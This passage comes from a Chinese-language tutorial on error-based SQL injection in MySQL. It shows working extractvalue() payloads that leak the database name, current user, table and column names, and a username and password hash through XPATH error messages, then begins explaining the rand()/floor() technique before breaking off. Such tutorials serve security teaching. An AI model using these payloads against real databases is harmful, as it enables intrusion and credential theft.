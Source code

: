 - `extractvalue()`  这个函数支持两个参数，第一个参数是字符串，用来表示一个xml文件的路径，第二个参数是字符串，用来表示一段xpath语法。可以实现根据第二个参数解析一个特定的xml文件，拿到其对应的数据的功能。那么如果我们构造一个不符合xpath语法的输入，就会报错。例如：

  ```sql
  select extractvalue(1,concat(0x7e,database()))--
  --XPATH syntax error: '~security'  0x7e表示~，concat(0x7e,database())表示~security(数据库名称), 因为~security不符合xpath语法，所以报错
  ```

  那么这里我们就可以思考，是否可以通过类似于`exp`讲的那种方式注入一些非法的输入，来获取用户名密码呢，答案是肯定的：

  ```sql
  select extractvalue(1,concat(0x7e,user(), 0x7e,database()))--
  --XPATH syntax error: '~root@100.104.175.140~security'   获取用户名密码
  select extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 2,1)))--
  --XPATH syntax error: '~user'  获取到user表名
  select extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='user' limit 52,1)))
  --XPATH syntax error: '~name' 获取表结构
  select extractvalue(1,concat(0x7e,(select concat_ws(':',id, name, password) from user limit 0,1)))
  --XPATH syntax error: '~1:root:2ecdde3959051d913f61b145'  获取用户名，密码
  ```

- `updatexml()`函数顾名思义是可以更新xml的，注入原理和`extractvalue()`类似。

- `rand()`+`floor()`+`count()`+`group by` 实现注入。这个组合也是可以实现报错注入的，要探究这其中的奥妙，需要先理解这几个函数分别是做什么用的。

  **`floor()`**函数用来返回一个不大于x的最大整数
  
  ```sql
    select floor(0.1), floor(2.1), floor(-0.3)
    +------------+------------+-------------+
    | floor(0.1) | floor(2.1) | floor(-0.3) |
    +------------+------------+-------------+
    |          0 |          2 |          -1 |
    +------------+------------+-------------+
  ```
  
  **`rand()`**函数用来生成一个0到1之间随机浮点数，他又真随机和伪随机两种策略。如果不给任何参数，每次生成的随机数是不一样的，如果给了一个参数，那么每次生成的参数就是一样的，我们叫做伪随机。因此：
  
  ```sql
  select rand(0) from tables limit 1,10; -- 返回的结果也是固定的
  +---------------------+
  | rand(0)             |
  +---------------------+
  | 0.15522042769493574 |
  |   0.620881741513388 |
  |  0.6387474552157777 |
  | 0.33109208227236947 |
  |  0.7392180764481594 |
  |  0.7028141661573334 |
  |  0.2964166321758336 |
  |  0.3736406931408129 |
  |  0.9789535999102086 |
  |  0.7738459508622493 |
  +---------------------+
  select rand(0)*2 from tables limit 1,10; -- 返回的结果也是固定的
  +--------------------+
  | rand(0)*2          |
  +--------------------+
  | 0.3104408553898715 |
  |  1.241763483026776 |
  | 1.2774949104315554 |
  | 0.6621841645447389 |
  | 1.4784361528963188 |
  | 1.4056283323146668 |
  ```